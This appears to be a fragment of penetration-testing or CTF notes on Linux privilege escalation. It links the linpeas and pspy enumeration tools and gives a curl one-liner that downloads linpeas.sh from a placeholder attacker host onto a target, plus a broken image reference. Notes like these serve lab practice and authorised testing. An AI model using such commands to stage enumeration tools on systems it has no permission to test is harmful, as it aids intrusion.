 - Use [linpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20240211-db8c669a)
- Use [pSpy](https://github.com/DominicBreuker/pspy/releases)

---

- If you can't use wget, try this with **curl**; `curl -o filename http://IP:port/linpeas.sh`

---

